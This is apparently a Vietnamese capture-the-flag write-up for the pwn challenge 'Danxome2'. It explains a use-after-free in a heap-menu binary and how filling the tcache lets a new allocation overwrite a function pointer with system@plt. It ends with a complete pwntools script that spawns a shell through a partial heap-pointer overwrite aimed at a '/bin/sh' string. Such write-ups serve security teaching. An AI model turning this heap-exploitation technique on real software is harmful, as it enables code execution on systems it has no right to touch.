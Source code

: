 # Danxome2
## Ý tưởng
- Bài này tương tự như Danxome cũng có lỗ hổng ở chỗ không xoá con trỏ sau khi free và UAF
- Chương trình khá ổn khi 1 lần tạo 2 chunk (chunk lưu speak, chunk lưu tên) đều 0x20 byte và khi free thì chunk tên free trước, chunk speak free sau.
- Tuy nhiên để ow được chunk speak, ta tận dụng cơ chế tcache là mỗi size lưu được 7 chunk.
- Lỗ hổng như sau:
    - Ta sẽ tạo 4 minon (8 chunk) và free 4 minon, thứ tự trong tcache (số đen)
    ![image](https://github.com/wan-hyhty/trainning/assets/111769169/9abba3bd-e9eb-4c31-94da-d638862becdb)
    - Khi free xong chunk 8 sẽ được lưu trong fastbin do tcache đầy
    - Khi malloc 1 minon mới, chương trình sẽ lấy trong tcache trước và lấy chunk 7 (lưu speak) và chunk 6 (lưu ten)
    > Vây là ta đã có thể UAF, ow chunk 6 là system
## Khai thác 
- Dựa trên lí thuyết trên ta tạo 5 minon như sau
```python
add(b'a'*0x18)
add(b'b'*0x18)
add(b'c'*0x18)
add(b'd'*0x18)
add(b'/bin/sh\x00')
```
- Ta free 4 minon đầu, và tạo minon mới
```python
remove(0)
remove(1)
remove(2)
remove(3)

add(flat(system_plt, 0)+b'\xc0')
```
- Minon mới sẽ ghi đè như hình ở phần ý tưởng, tại sao lại có `b'\xc0`. Vì khi `report_name`, nó sẽ call rdxx là `system`, tuy nhiên rdi cần là một địa chỉ chứa chuỗi `/bin/sh` nhưng trong chương trình không có sẵn, vì vậy ở phần tạo 4 minon đầu, ta sẽ tạo minon 4 tên `/bin/sh` và khi UAF, ta sẽ ow địa chỉ heap thành địa chỉ heap chứa `/bin/sh` của minon 4

```python
from pwn import *

context.binary = elf = ELF('./minon')
# p = remote('pwn.battlectf.online',1007)
p = process("./minon")
system_plt = elf.plt['system']

gdb.attach(p, gdbscript = '''
           b*0x0000000000401450
           b*0x000000000040167a
           c
           
           ''')
input()
def add(name):
    p.sendlineafter(b'>', b'1')
    p.sendlineafter(b'>', b'1')
    p.sendafter(b'>', name)
    p.recvuntil(b'> [DEBUG]')

def remove(idx):
    p.sendlineafter(b'>', b'2')
    p.sendlineafter(b'>', str(idx).encode('utf-8'))
    p.recvuntil(b'> [DEBUG]')

def report(idx):
    p.sendlineafter(b'>', b'3')
    p.sendlineafter(b'>', str(idx).encode('utf-8'))

add(b'a'*0x18)
add(b'b'*0x18)
add(b'c'*0x18)
add(b'd'*0x18)
add(b'/bin/sh\x00')

remove(0)
remove(1)
remove(2)
remove(3)

add(flat(system_plt, 0)+b'\xc0')

report(2)

p.interactive()
```
